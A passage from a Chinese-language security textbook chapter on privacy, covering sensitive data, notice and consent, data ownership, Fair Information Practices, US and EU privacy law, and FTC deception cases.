
##### 敏感数据

有人询问你的鞋码。你可能会回答：“我是个很注重隐私的人，无法想象你为什么想知道这么私密的细节”，也可以说“10C”；有些人认为这一数据项比其他人更敏感。某些信息通常被认为是敏感的，例如财务状况、特定健康数据、某人过去的不光彩事件等。因此，如果你得知某人认为敏感的信息，除非有令人信服的理由将其公开，否则你很可能会保守秘密。例如，在许多地方，医疗专业人员（出于疾病识别、控制和预防的目的）被要求报告高度传染性或致命疾病的病例，即使患者不希望该信息公开。但我们大多数人并不太在意鞋码，所以如果被问及，或得知他人的鞋码，我们通常不会保护该信息。在大多数情况下，我们会尊重保护他人敏感信息的请求。

以下是许多人认为属于私密类型的数据示例（顺序不分先后）。

*   **身份**：姓名、身份识别信息、私有数据的所有权及控制其披露的能力
*   **财务**：信用评级和状况、银行详细信息、未偿还贷款、付款记录、税务信息
*   **法律**：犯罪记录、婚姻历史、民事诉讼
*   **健康**：医疗状况、药物使用、`DNA`、疾病遗传倾向
*   **观点、偏好和成员资格**：投票记录、表达的观点、倡导组织成员身份、宗教、政党、性取向、阅读习惯、网页浏览记录、喜爱的消遣、亲密朋友
*   **生物特征**：身体特征、测谎结果、指纹
*   **文书证据**：平信、日记、诗歌、通信往来、记录的思想
*   **特权通信**：与律师、会计师、医生、咨询师和神职人员等专业人士之间的通信
*   **学术和就业信息**：学校记录、雇佣评级
*   **位置数据**：大致出行计划、当前位置、出行模式
*   **数字足迹**：电子邮件、电话通话、垃圾邮件、即时消息、推文以及其他形式的电子交互、社交网络历史记录

隐私也受到“你是谁”的影响。当你身处一个满是陌生人的房间里，也许是在招待会上，有人可能会走过来对你说：“原来你就是那个在那边烤出漂亮蛋糕的男士；我真佩服你作为糕点师的手艺。” 得到这种认可感觉很不错。反之，如果你是每晚都在地方电视台播报新闻的新闻主播，你可能更倾向于在家吃晚餐，而不是去餐厅；你可能会厌倦陌生人冲过来大喊：“我天天在电视上看你。” （许多公众人物都珍视他们所保留的那一点点隐私。）世界冠军运动员无法避免其成绩被公开，而你可能不想让所有人都知道你在上一次运动会上的表现有多差。文化也会影响人们对敏感信息的认定；例如，讨论性经历或薪资信息在一种文化中可能是允许的，但在另一种文化中则不被允许。

> **什么是私人的由当事人自己决定：不存在什么是私人的通用标准。**

一般来说，一个人的隐私期望取决于情境：谁受到影响、该人对公开持何种感受，以及隐私的主流规范是什么。

##### 受影响的主体

个人、群体、公司、组织和政府都拥有其认为敏感的数据。我们使用“主体”和“所有者”等术语来区分数据所描述的人或实体，以及持有数据的人或实体。到目前为止，我们是从个人角度描述隐私的，其中主体是一个人。但公共和私营组织也关注隐私。公司可能拥有其认为私密或敏感的数据：产品计划、关键客户、利润率和新发现的技术等。对于私营企业而言，隐私通常关乎获得并保持相对于竞争对手的优势。其他组织，如学校、医院或慈善机构，可能需要保护其学生、患者或捐赠者的个人数据。许多组织也保护与其声誉相关的信息；他们可能想要控制负面新闻，或把握发布可能影响股价或法律判决的信息的时机。大多数政府认为军事和外交事务敏感，但它们也认识到自己有责任提供信息以启迪国民讨论。同时，政府有责任保护并保密其从公民那里收集的数据，例如税务信息。

隐私是保密性的一个方面。正如我们在本书中所了解到的，保密性、完整性和可用性这三个安全目标可能会发生冲突，保密性有时会与可用性冲突。例如，如果你选择不在电话簿中公布你的电话号码，那么有些人可能就无法通过电话联系到你。或者拒绝向商店透露个人数据可能会让你无法获得常客折扣。因此，不仅要将隐私视为一种保护信息的方式，还要将其视为可能阻碍其他重要积极目标的障碍。

> **隐私与保密性的关系在于：保密性是保护个人认为私密事物的一种手段。**

##### 总结

总之，关于隐私有以下几点：

*   隐私是受控披露，即主体选择向谁、何时披露何种个人数据。
*   披露某事后，主体将放弃对接收者的大部分控制权。
*   什么数据敏感由主体自行决定；不同人认为敏感的东西不同。一个人是否认为某事敏感，与为什么敏感同等重要。
*   个人、非正式群体和正式组织都有其认为私密的事物。
*   隐私可能有代价。选择不提供某些数据可能会限制本可随披露而来的利益。

在下一节中，我们将探讨一些人们认为私密的数据示例。

##### 计算机相关的隐私问题

你可能会注意到，许多种类的敏感数据和许多关于隐私的观点与计算机毫无关系。你完全正确：这些敏感性和问题早于计算机的出现。计算机和网络仅影响了某些非预期披露的可行性、速度和范围。公共档案馆早就向人们开放以供研究其中存放的数据，但计算机的存储容量和速度赋予了我们比以往任何时候都更快、更有效地积累、搜索和关联数据的能力。借助搜索引擎，我们可以从数十亿条数据中找到一条，这相当于从装满箱子的仓库中找到一张纸。此外，网络的开放性和技术的便携性（如笔记本电脑、平板电脑、手机和支持 `WiFi` 的设备）极大地增加了影响隐私的披露风险。

Rezgui 等人 [REZ03] 列出了隐私的八个维度（专门针对 `Web`，尽管这些定义自然地延伸到其他类型的计算）。

*   **信息收集**：仅在知情并获得明确同意的情况下收集数据。
*   **信息使用**：数据仅用于特定指定的目的。
*   **信息保留**：数据仅保留一段设定的时间。
*   **信息披露**：数据仅向授权人员披露。
*   **信息安全**：使用适当机制确保数据保护。
*   **访问控制**：控制对所有形式收集数据的所有访问模式。
*   **监控**：维护日志，记录对数据的所有访问。
*   **策略变更**：绝不事后将限制较宽松的策略应用于已获取的数据。

以下是因计算机使用而产生的隐私问题。

#### 数据收集


正如我们所说，计算机存储技术的进步使得保存和操作海量记录成为可能。普通消费设备上的磁盘容量以千兆字节（10⁹ 或 10 亿字节）、兆兆字节（10¹² 或 1 万亿字节）、拍字节（10¹⁵ 或 1 千万亿字节）和艾字节（10¹⁸ 或 1 百亿亿字节）来衡量。2012 年，Ngo [NGO12] 报道称希捷在存储密度上达到了里程碑：每平方英寸一兆兆字节，从而能够生产 60 兆兆字节的硬盘驱动器。Plafke [PLA13] 强调了斯威本大学微光子学中心的一个团队“开发出一种技术，可将 DVD 的存储容量从标准的 4.7 千兆字节 (GB) 提高到 1 拍字节 (PB)。该技术不改变光盘的大小或形状，而是改变读取光盘数据所用的激光。” Solar [SOL10] 报道称，电子介质的替代品有望提供更大的存储设备。他描述了香港中文大学的一个小组成功利用普通细菌作为安全存储设备。“根据测试的程序，他们估计一克细菌细胞可存储约 900,000 千兆字节。这相当于 450 个硬盘驱动器，每个容量为 2 兆兆字节 (2000 GB)。” 为了直观感受这些数字，科学家估计人脑的容量在 1 兆兆字节到 1 拍字节之间。

***

**计算机存储设备的容量持续增长，推动每字节成本下降。**

***

### 数据存储与隐私：海量数据时代的挑战

随着我们存储数据能力的增长，我们想要存储的数据量也在同步增长。IBM 告诉我们，每天都会创建 2.5 EB（exabytes）的新数据。这一统计数据令人震惊；这意味着“当今世界上 90% 的数据仅在过去两年内就已创建。”（[`www-01.ibm.com/software/data/bigdata/what-is-big-data.html`](http://www-01.ibm.com/software/data/bigdata/what-is-big-data.html)）

---

**海量、廉价存储的可用性鼓励（或至少不阻碍）数据的收集与保存。**

---

圣地亚哥超级计算中心拥有 1 PB（petabyte）的在线存储和 7 PB 的离线归档，据估计 Google 的存储数据量也在多 PB 级别。过去，物理空间限制了海量印刷数据的存储（和查找），而电子数据相对于硬拷贝占用的空间极小。

Storageservers.com（[`storageservers.wordpress.com/2013/07/17/facts-and-stats-of-worlds-largest-data-centers/`](http://storageservers.wordpress.com/2013/07/17/facts-and-stats-of-worlds-largest-data-centers/)）估算了一些知名站点的容量和使用情况：

- Google 在 2014 年拥有 17 个数据中心，占全球总能耗的 0.01%。
- Facebook 服务器每天处理约 24 亿条内容和 750 TB（terabytes）数据，其用户每月访问约 7 PB 的照片存储。
- Amazon 服务器拥有超过 1700 万月访问者，他们从平台访问 410 TB 数据。“约 3000 万 Amazon 用户每月流式传输约 40 PB 的视频。”
- Microsoft 拥有超过 10 亿用户和 10 万多台服务器。

我们似乎从不丢弃数据；只是将其移至速度较慢的辅助介质，或购买更多存储空间。

#### 通知与同意

这些字节究竟从何而来？虽然部分来源于公开和商业渠道（如报纸、网页、数字音频和视频记录），另一些来自有意的数据传输（例如纳税申报单、事故后的警方笔录、读者调查表、学校作业），但仍有大量数据是在未经告知的情况下被收集的。电话公司记录每通电话的日期、时间、时长、来源和去向。ISP 追踪访问过的网站。某些网站保留每位访问者的 IP 地址（尽管 IP 地址通常不唯一对应特定个人）。用户不一定知晓这第三类数据收集的存在，因此不能说他们已对收集行为给予知情同意。

我们可以通过多种方式了解数据收集和使用情况。例如，进入某网站可能需要确认“使用条款”，其中会说明收集什么数据、为何收集，以及如果你不愿被收集某些数据有何补救措施。使用条款还可告知你，若发现数据收集、存储或使用中有错误或差异，该如何处理。同样，当你在移动设备上使用应用时，可能会被告知某些数据项（如你的位置或通讯录）将被应用用于执行某些任务。

除了通知，有时还需要同意。即明确征求你收集和使用信息的许可。例如，地图程序或应用可能会请求自动收集你位置的权限；若你拒绝，要么无法继续使用该程序，要么每次需要地图或导航时都得手动输入位置。

正如本章后文所述，通知和同意是隐私提供与保护的重要原则。然而，有时通知和同意的问题并不像应该的那样显而易见。侧边栏 9-1 描述了一起近期事件：某会展中心的厕所声称为了公共利益采集信息。尽管最终被证实为恶作剧，但这一行为提醒我们：数据经常在未经同意甚至不知情的情况下被采集。

---

### 侧边栏 9-1：未经同意的厕所传感器？

美国晚间新闻（RYS14）及其他媒体曾报道：在多伦多举行的一次计算机与人机交互国际会议上，厕所使用者看到了如图 9-1 所示的标识。它通知使用者，厕所内的行为正被记录以供分析。


**图 9-1** 数据采集通知

访问 `quantifiedtoilets.com` 网址的用户被告知：“我们很荣幸能成为多伦多‘健康建筑计划’的一部分，并激动地在全市主要市政建筑中部署初步基础设施。与合作伙伴一起，我们利用从建筑及其使用者的日常活动中收集的大数据。诚然，这不是最迷人的数据来源，但我们分析建筑的生物废物处理过程，以创造更好的空间和更快乐的人群。我们利用这些数据优化清洁人员排班，告知市政部门资源使用情况，并帮助建筑和城市规划更健康、更快乐的市民……利用先进的传感技术和最先进的集中式废物数据收集系统，我们能够谨慎地从每个独立马桶采集数据。每个马桶的活动都会产生独特的特征，使我们能够追踪使用情况并分析建筑中每个马桶的细节。我们开创性的软件随后能够对数据进行编目，进行传统手段无法实现的多方面健康分析。”

该网站还展示了一个所谓的实时数据流（如图 9-2 所示），暗示正在进行何种分析。


**图 9-2** 数据采集示例

为何要搞这个恶作剧？策划者之一解释道：“我们的面部数据每天都可供闭路电视摄像头自由采集……我们还在不加思考的情况下提供哪些其他数据，它们可能被用于相当侵入性或不道德的方式？”（BAR14）尽管多伦多的厕所传感器并非真实存在（目前？），但其他正在使用的技术确实会采集个人信息。例如，Tactonic Technologies 的 IntelliMat 系统（[`www.tactonic.com/index.html`](http://www.tactonic.com/index.html)）拥有压力敏感表面，可采集某人走过时的详细步态信息。正如第 2 章所述，一个人的步态可作为生物特征，用于识别谁在何时何地出现。

即使这些数据收集因明确的公共利益而获大多数人批准，它们也给通知和同意带来了严重问题：每当拍摄照片、识别步态或检测化学物质时，应如何通知当事人？在厕所这类对隐私有预期的场所，应多久通知一次，用多少种语言？当事人如何选择退出？这可能困难甚至不可能。

---

#### 数据的控制与所有权

在许多情况下，你会被要求提供数据（并获得适当通知），且你明确或默示地同意了。但当数据被传输给请求者或系统时会发生什么？在获得你许可收集数据后，他人可能会保留你提供给他们的数据；你已将该数据副本的控制权（有时甚至是所有权，取决于你所在地区的法律）让渡给了他们。例如，当你在线订购商品时，你知道你刚刚发布了你的姓名、地址、支付数据以及所购商品的描述。同样，当你在实体店或网上使用客户忠诚卡时，商家可以将你的身份与你浏览或购买的商品关联起来。商家获取你的数据后，可以无限期地保存这些数据，并将其重新分发给其他人或系统。你的浏览习惯、购买行为、对酒店品牌、客房类型、航空公司或旅行社的偏好可能被出售给其他酒店。你对数据的传播（或再传播）几乎没有控制力。一旦数据流出，你就无法将其追回。

***

**传播的数据几乎不可能追回。**

***

我们并不总是能意识到失去控制的后果。假设你在愤怒之下给某人写了一张措辞严厉的便条。虽然 100 年前你会写在纸上，50 年前你可以通过电话表达，但现在你会将信息发布到社交媒体页面。如果你事后后悔，想要撤回愤怒的评论，考虑一下你会如何处理这三种形式的通信。对于手写便条，你写一封道歉信，收件人撕毁你的便条，便不留痕迹。（你甚至可能说服邮递员在投递前退回你的信，这样就不需要道歉，也不会造成伤害。）第二种情况下，你打电话道歉，只留下一段记忆（假设原通话未被录音）。

至于电子通信，你可以删除你的帖子。然而，在创建和删除之间的时间里，其他几个人可能已经看到了你的原始帖子（或缓存版本），并将其复制到你无法控制的博客或其他网站。搜索引擎可能已抓取了原文、缓存版本或副本。其他人可能已拾取你的言论并在电子邮件中传播。因此，对于纸质信件，我们通常可以销毁想要撤回的内容；对于电话，我们可以道歉并弥补。但一旦电子内容脱离你的控制进入网络，它可能永远无法删除；事实上，它会扩散并迅速演变成严重问题。（例如，想想政客们希望从未发布过的 YouTube 视频，尤其是那些病毒式传播的视频。）

类似的情况也发生在关于你的文字上。别人在网上发布了涉及你隐私的内容，你想将其移除。即使发布者同意，你也可能无法清除所有痕迹。这种想要移除可能令人尴尬的旧信息的愿望，正是欧盟致力于推行“被遗忘权”的焦点。

此外，一些人发现他们在 Facebook 和 Instagram 等网站上透露的信息超出了应有范围。求职者因网上可查的言论而被拒之门外。这种数据暴露几乎能影响你生活的方方面面。例如，假设一家公司持有你的数据，且该公司的记录在计算机攻击中泄露。该公司可能无需负责防止对你的伤害、在你受损时赔偿，甚至无需告知你该事件。

美国法律基于言论受保护的原则：根据美国宪法第一修正案，每个人都享有国会不得制定“剥夺言论自由”法律的保障。修正案的另一条款保护个人在出版物中自由表达观点的权利，这导致了一种惯例，即允许记者在报道文章中保护被引用观点者的匿名性。言论自由和新闻自由引出了关于其对数字媒体适用性的问题，详见侧边栏 9-2。

网络是一个巨大的历史档案库，但由于档案、缓存和镜像站点的存在，发布在网上的内容可能永远不会消失。正如 NBC News [NBC13] 所报道：“你的比特遍布互联网。如果你登录 Google 并搜索、在 Dropbox 文件夹中保存文件、使用 Skype 打电话，或者只是早上醒来查看邮件，你都在留下数字面包屑。能够访问这些信息的人——为你的邮件和网络搜索提供支持的公司、向你精准投放广告的广告商——可以构建出你是谁、你喜欢什么、以及你下一步可能会做什么的画像……联邦特工和其他工作人员也可能使用这些数据。”

***

### 侧边栏 9-2 推文受言论自由保护吗？

2011 年 2 月，记者 Dana Hedgpeth 在《华盛顿邮报》[HED11] 撰文称，美国政府试图从三个与 WikiLeaks 调查有关的人的 Twitter 账户中获取个人信息。政府律师请求提供屏幕名称、邮寄地址、电话号码、银行账户和信用卡信息以及 IP 地址。然而，被告律师坚称这些信息受美国宪法第一修正案保护。

尽管法庭审理的案件针对 WikiLeaks 文件，但这一政府请求提出了一个重要问题：政府可以从社交网络中扣押哪些数据？本章我们已看到，用户在应用程序中可以选择保护其在社交网络中的数据隐私。但政府能否覆盖这些设置？被告律师之一指出：“用户的数据将向政府提供一张与 WikiLeaks 有关联人员的地图，从根本上扼杀在线言论自由。”[HED11] 政府律师指出这是标准请求，且他们不知道 Twitter 是否收集了所有请求的数据项。

提出的问题之一是现行法律是否适用于互联网技术。“专家称这些法律旨在处理电话记录，而非电子邮件和推文等不断演变的技术。”美国公民自由联盟的一位游说者指出：“我们正在使用访问电子邮件、社交网络站点信息的工具，而这些在立法时从未被设想过。”2011 年 1 月 28 日，Twitter 代表在博客中阐述了公司立场：“言论自由伴随着保护用户自由发言权利、维护其反对私人信息被披露能力的使命。”

***

Hardy [HAR14] 报道称，一些公司在你不知情、未同意的情况下构建你的画像：“这里一比特、那里一比特，单看都无害，却可能揭示甚至我自己都隐瞒的个人隐私。”他引用科技企业家兼社会批评家 Vivek Wadhwa 的话：“老大哥做梦也想不到我们会告诉他我们在哪里、和谁交谈、是什么感受——而且我们还为此付费。”

#### 在某些国家（如欧盟成员国），你拥有自己的数据，且在数据被用于各种用途前必须获得你的许可。但在其他国家（如美国），数据的持有者即为所有者——这也是为什么让数据副本泄露给他人或他处会成为一个问题的原因之一。但即使法律改变，让我们每个人都能拥有自己的数据，又能怎样？我们中有多少人愿意花费大量时间，授权给交通摄像头、网站和电子邮件提供商使用我们的数据？

这些问题——数据收集、通知与同意、数据的控制与所有权——具有重大的隐私影响。解决这类问题的一种方式是制定政策：即书面的实践声明，告知所有受影响方其权利与责任。在下一节中，我们将探讨计算领域的隐私政策。

## 9.2 隐私原则与政策

在美国，对电子隐私和计算机数据库的关注至少可以追溯到 20 世纪 70 年代初。^1 公众对隐私的关注度多年来有所变化。在 20 世纪 70 年代初，一个联邦政府资助的委员会制定了一套隐私原则，称为“公平信息实践”，这不仅影响了美国的法律法规，也为其他国家的隐私立法奠定了基础。

1. 值得注意的是，美国“水门事件”窃听案发生于 1972 年。随后不久，有报道称尼克松总统保留了一份“敌人名单”，并曾利用国内税务局（税务）记录作为打击对手的工具。因此，当时美国民众对隐私问题非常敏感，因为该问题一直突出地见诸报端，直到尼克松于 1974 年辞职。

### 公平信息实践

1973 年，兰德公司的 Willis Ware 主持了一个委员会，就隐私问题向美国卫生、教育和福利部部长（现称为卫生与公众服务部）提供建议。该报告（摘要见 [WAR73a]）基于公平信息实践提出了一套原则：

* **收集限制**。数据应通过合法且公正的方式获取。
* **数据质量**。数据应与其用途相关，且准确、完整、及时。
* **目的明确**。应明确数据将被用于何种目的，若数据不再服务于该目的，应予以销毁。
* **使用限制**。除经数据主体同意或法律授权外，不得将数据用于特定目的以外的其他用途。
* **安全防护**。应建立程序，防范数据丢失、损坏、毁灭或滥用。
* **公开性**。应能获取有关个人数据系统的收集、存储和使用的信息。
* **个人参与**。数据主体通常有权访问并质疑与其相关的数据。
* **问责制**。应指定数据控制者，并由其对遵守上述原则的措施负责。

这些原则描述的是个人的权利，而非对收集者的要求；也就是说，这些原则并不要求保护所收集的数据。

***

**公平信息原则描述了个人对敏感数据享有的隐私权。**

***

Ware [WAR73b] 提出了几个重要问题，包括多个文件中数据的关联，以及对关键字（如社会安全号码）的过度使用——这些关键字原本并不打算用作记录标识符。虽然他预见到社会可能会走向使用统一身份号码，但他担心这种趋势会在无计划（因而也就无控制）的情况下发展。他的预见是正确的，尽管他无法预见 40 多年后数据交换的规模。

Rein Turn 和 Willis Ware [TUR75] 探讨了保护数据项本身的问题，认识到数据集合将成为未经授权访问攻击的诱人目标。他们建议了四种保护存储数据的方法：

* 通过限制维护的数据量、仅索取必要数据以及使用随机样本代替完整总体来降低暴露风险。
* 通过交换数据项或向数据中添加微妙错误来降低数据敏感性（并警告接收者数据已被修改）。
* 通过移除或修改标识性数据项来匿名化数据。
* 加密数据。

你将再次看到这四种方法被提及，因为它们仍然是保护数据隐私的标准技术。

### 美国隐私法

Ware 及其委员会原本期望这些原则适用于所有个人数据集合，但现实远未达到这一目标。相反，Ware 委员会的报告促成了 1974 年《隐私法案》（5 USC 552a）的颁布，该法案体现了上述大多数原则，尽管该法律仅适用于美国政府收集和维护的数据。尽管如此，《隐私法案》是一项广泛的法律，涵盖政府收集的所有数据。由于其适用范围之广——它适用于联邦政府持有的任何个人数据——它是美国最有力的隐私法。

随后，美国又通过了法律保护其他组织收集和持有的数据，但这些法律按单个数据类型零散适用。例如，消费者信用由《公平信用报告法》管辖，医疗信息由《健康保险流通与责任法案》（HIPAA）管辖，金融服务机构由《格雷姆-里奇-比利雷法案》（GLBA）管辖，儿童网络访问由《儿童在线隐私保护法案》（COPPA）管辖，学生记录由《联邦教育权利和隐私法案》管辖。不出所料，这些单独的法律在保护隐私方面存在不一致。

美国还允许州政府监管隐私的特定方面。例如，Smith [SMI13] 定期发布州和联邦隐私法汇编；主体部分描述美国情况，附录涉及加拿大及其省份的隐私法。州法律差异很大，有时使得在每个州都遵守隐私法变得困难。例如，在内华达州，未经汽车所有人或承租人同意，不得在汽车中安装黑匣子记录仪（内华达州修订法第 484.638 节）。同样，在新罕布什尔州，制造商必须向车主披露新车中事件数据记录仪的存在（新罕布什尔州修订法规注释版第 357-G:1 节）。然而，在纽约州和北达科他州，对记录仪可采集的数据种类有进一步限制；例如，在北达科他州，数据仅可用于汽车维修或提高安全性（北达科他州世纪法典第 51-07.28 节）。

***

**美国的隐私法因市镇和州而异；极少存在全国性法律。**

***

法律法规在隐私保护的某些方面确实有所帮助。例如，Annie Antón 等人通过分析公司在 HIPAA 法案生效前后发布的隐私政策，研究了该法案的影响 [ANT079]。他们发现在 HIPAA 颁布后发布的政策中：

* 关于数据传输（给其他组织）的声明比 HIPAA 颁布前更加明确。
* 消费者对其数据的披露或传播仍几乎没有控制权。
* 声明变得更长、更复杂，导致消费者更难理解。
* 即使在同一行业分支（如制药公司）内，声明也差异巨大，使得消费者难以对比政策。

#### 美国政府网站的隐私控制


由于隐私规则可能存在歧义，隐私政策是定义特定环境下隐私概念以及规定违规处理方式的重要手段。

联邦贸易委员会（FTC）对网站拥有管辖权，包括美国政府网站，这些网站会征集潜在的私人数据。2000 年，FTC 为政府网站制定了隐私政策要求。由于政府网站受《隐私法》约束，FTC 要求隐私保护相对容易。FTC 认定，为遵守《隐私法》，政府网站必须解决以下五个隐私因素：

*   **通知**。数据收集者必须在从消费者处收集个人信息前披露其信息处理做法。
*   **选择**。消费者必须有权选择是否以及如何使用从他们那里收集的个人信息。
*   **访问**。消费者应能查看并争议关于他们的数据收集的准确性和完整性。
*   **安全**。数据收集者必须采取合理步骤，确保从消费者处收集的信息准确且免受未经授权的使用。
*   **执行**。必须建立可靠机制，对违反这些公平信息做法的行为实施制裁。

2002 年，美国国会颁布《2002 年电子政府法案》，要求联邦政府机构在其网站上发布隐私政策。这些政策必须披露：

*   将要收集的信息
*   收集信息的原因
*   机构对信息的预期用途
*   将与之共享信息的实体
*   关于收集何种信息以及如何共享信息，提供给个人的通知或同意机会
*   信息的安全保护方式
*   根据《隐私法》及其他相关法律，个人在个人隐私保护方面享有的权利

FTC 和国会的行动仅适用于网站；通过其他方式收集的数据（例如填写纸质表格）处理方式不同，通常按具体情况或按机构处理。《电子政府法案》中反映的要求侧重于数据类型（通过网站提供给政府的数据），而非隐私的一般概念。

### 商业网站的隐私控制

《电子政府法案》对政府通过网站收集数据实施了强有力的控制。如前所述，政府之外的隐私在某些主题领域受法律保护，如信贷、银行、教育和医疗。但私营公司没有对应《电子政府法案》的法律。

#### 禁止欺骗行为

联邦贸易委员会（FTC）有权起诉从事欺骗性贸易或不公平商业行为的公司。如果公司以虚假或误导方式宣传，FTC 可以提起诉讼。FTC 利用这种方法处理网络隐私违规：如果公司宣传虚假的隐私保护，即公司声称将以某种方式保护隐私但未履行，FTC 视为虚假广告并可采取法律行动。正因 FTC 存在，网站底部的隐私声明才具有含义且可强制执行。

但这种方法可能导致怪异结果。只要公司隐私政策声明会这样做，或者至少未声明不会这样做，公司就被允许收集个人信息并以任何形式传递给任何人。承诺维护隐私却故意不履行属于非法欺骗行为。声明打算与营销公司或“其他第三方”共享数据，即使这种共享变得可接受，即使第三方无意保护隐私。同样，考虑公司 A 有明确隐私政策却被公司 B 收购的情况。如果您基于 A 隐私政策中的承诺向 A 提供数据，当 B 接管时这些保护可能消失。因此隐私保护不具有“传递性”。

***

**隐私声明具有强制力：承诺不发布数据的网站必须遵守该规则，但未做任何声明的网站不受约束。**

***

#### 欺骗行为案例

CartManager International 是一家为各类商家提供熟悉的网络购物车软件的公司。该软件收集特定订单中要购买的各种商品，获取购买者姓名和地址，并确定配送和付款详情。该软件作为其他知名零售商网站内的应用程序运行；它是处理订单处理的子系统。一些零售商在其网站上有隐私声明，实际上承诺不出售或分发客户数据。尽管如此，CartManager 仍出售其子系统收集的数据。FTC 起诉了 CartManager，于 2005 年达成和解。该机构认定商家与 CartManager 的关系对用户不可见，因此在线商家的政策也适用于 CartManager。

另一案例中，Annie Antón 及其同事分析了 JetBlue 航空网站发布的隐私政策，发现其具有误导性。JetBlue 声明不会向第三方披露乘客数据。“应国防部特别请求”，JetBlue 将乘客数据发布给 Torch Concepts，后者又将其转交国防部，用于测试航空安全的乘客筛选算法。相关数据涉及信用卡信息，显然仅为处理机票费用而由 JetBlue 收集。

Antón 的分析之所以有趣，有两个原因：第一，JetBlue 违反了其自身的政策。第二，国防部可能通过从私营公司获取数据，规避了《电子政务法案》；作为政府实体，它本无法直接收集这些数据。JetBlue 收集数据的初衷源于其业务和会计活动。将这些记录用于筛查恐怖分子，超出了最初数据收集的范围。

商业网站没有与《电子政务法案》中 FTC 建议相媲美的内容标准。一些公司展示清晰详细且必须遵守的隐私声明。同时，其他公司根本不提供隐私声明，这给了他们极大的灵活性：当隐私政策什么都没说时，就不可能误导他人。关于定义在线隐私的另一种方法，请参见侧边栏 9-3。

***

#### 侧边栏 9-3 语境中的隐私

我们思考和提供隐私的许多方式，尤其是在线方式，并不像我们希望的那样奏效。Helen Nissenbaum [NIS11] 提出了一种在线隐私的替代方法：将隐私视为一种“语境完整性”。她的方法考虑了“互联网作为公共产品的形成性理想”。让我们探讨一下这些短语的含义。

Nissenbaum 指出，基于选择的隐私模型可能会遗漏重要的考量。“虽然个人似乎自由选择支付信息代价，但不参与社会、商业和金融活动的代价实际上可能高到足以让人质疑这些选择有多自由。”她表示，“尊重在线隐私的同意模型所面临的问题比实际问题更深层。”特别是要考虑，“实现透明意味着以与个人选择相关且有意义的方式传达信息处理实践。”但如果通知意味着传达“每一个流向、条件、限定和例外”的细节，我们知道这不太可能被理解，更别提被阅读了。网站隐私政策的简略版可能比完整版更易读懂，但用户正是在隐藏的细节中发现影响其选择的重要条款。因此，我们面临一个*透明度悖论*：“文本含义的透明度与实践的透明度在极少数情况下之外都是相互冲突的……两者对于‘通知与同意’机制的运作都至关重要。”也就是说，读者需要知道保留哪些隐私权利的总体图景（实践的透明度），但也需要知道这些隐私权利将如何被执行（含义的透明度）。缺少其中任何一方，仅有细节或仅有大局都是不够的。

作为替代方案，Nissenbaum 的语境完整性将在线领域与现有的社会生活结构联系起来。例如，我们信任电子医疗系统保护我们的健康数据，是因为我们对现有医疗系统有长期的经验和信任。我们需要识别其他此类语境，并在每个语境中评估隐私。

Nissenbaum 指出，“在线”并非一个与“现实生活”截然不同、分离的场所，可以为其单独定义和实施隐私。相反，在线生活融入了我们的社会生活，且是“根本异质的”：包含多种社会（而不仅仅是商业）语境。对隐私重要的是，“活动所依托的语境塑造了期望，一旦期望落空，就会引起焦虑、恐惧和抵触。”要解决这个问题，我们必须“定位语境、阐释根深蒂固的信息规范、识别破坏性流向，并根据一般伦理和政治原则以及语境特定的目的和价值观，以此类规范来评估这些流向。”

这种理念如何运作？以美国纳税为例。现行税法大多制定于 1970 年代，那时电子报税尚不存在。尽管如此，我们会期望报税的一般原则适用于电子报税，例如，适用于纸质记录的保密规则精神也应适用于电子记录。此外，“我们不会期望通过在线交互产生的辅助信息‘任人获取’，免费提供给所有来者。即使没有明确规则，也可以从[陈述和遵守的]价值观和目的中寻求指导……这些价值观和目的禁止所有共享，除非法律法规明确允许，按个案处理。”一些看似变革性的技术，如搜索引擎，没有直接的物理对应物，但仍可在社会规范和互动中加以审视。适用于图书馆信息查找的任何规范，也可适用于在线查找。也就是说，这种类比不是基于活动的相似性，而是基于意图和功能的相似性。在没有明显类比的地方，从目的、意图和价值观出发，反推规范。

Nissenbaum 提醒我们，隐私政策不仅关乎个人及其权利。“它们在维持社会制度方面发挥着关键作用……既关乎维持创造力、智力成长、以及活跃的社会和政治参与等重要社会价值观，也关乎保护个人免受伤害。”

***

### 非美国隐私原则

不同国家在承认和保障隐私权方面采取了不同的方法，特别是针对自动化系统。

#### 欧洲隐私指令

1981 年，欧洲委员会（一个由 46 个欧洲国家组成的国际机构，成立于 1949 年）通过了第 108 号公约，以保护个人在个人数据自动处理方面的权益。随着自动化系统变得更加普及，欧洲联盟 (E.U.) 于 1995 年通过了关于个人数据处理的 95/46/EC 指令。95/46/EC 指令通常被称为欧洲隐私指令，它要求维护个人的隐私权，并要求关于他们的数据须：

*   公平合法地处理。
*   为特定、明确和合法的目的而收集，不得以与这些目的不兼容的方式进一步处理（除非有适当的保障措施保护隐私）。
*   与收集或进一步处理的目的相关，做到充分、相关且不过度。
*   准确，并在必要时保持更新。确实，一旦发现数据不准确或不完整，必须采取一切合理步骤，确保就收集目的或进一步处理目的而言，数据被删除或纠正。
*   以允许识别数据主体的形式保存，保存时间不得超过为收集数据或进一步处理数据所必需的期限。

此外，个人有权访问关于他们的数据，更正不准确或不完整的数据，并将这些更正发送给已接收数据的人员。你可以看到，这些规则反映了 Ware 报告中描述的公平信息实践。此外，E.U. 隐私指令还增加了三项原则：

*   **敏感数据的特殊保护**。对涉及“敏感数据”的数据收集和处理应有更严格的限制。根据 E.U. 数据保护指令，如果信息涉及“种族或民族出身、政治观点、宗教信仰、哲学或伦理说服力……[或]健康或性生活”，则视为敏感信息。
*   **数据传输**。该原则明确限制个人信息的授权用户未经数据主体许可，不得将该信息传输给第三方。
*   **独立监督**。处理个人数据的实体不仅应当负责，还应接受独立监督。就政府而言，该原则要求由独立于从事数据处理的部门之外的办公室或部门进行监督。根据数据保护指令，独立监督机构必须拥有审核数据处理系统的权力、调查个人投诉的权力以及对不合规行为实施制裁的权力。

这份对冗长法律的简要总结让你了解欧盟在隐私保护方面采取的不同且更全面的方法。欧盟数据保护指令的要求适用于收集个人数据的政府、企业和其他组织。自 1995 年原始指令发布以来，欧盟已将其覆盖范围扩展到电信系统，并做出其他变更以适应技术进步。你可以在 `ec.europa.eu/justice/data-protection/law/index_en.htm` 找到完整的指令及相关决定。

***

**欧洲隐私指令为隐私权提供了强有力的保护，对政府、企业和其他组织均具有约束力。**

***

#### 其他国家的隐私保护

其他国家，如日本、澳大利亚和加拿大，也通过了保护个人个人数据隐私的法律。网站 `www.informationshield.com/intprivacylaws.html` 提供了指向这些法律的链接。

#### 法律冲突

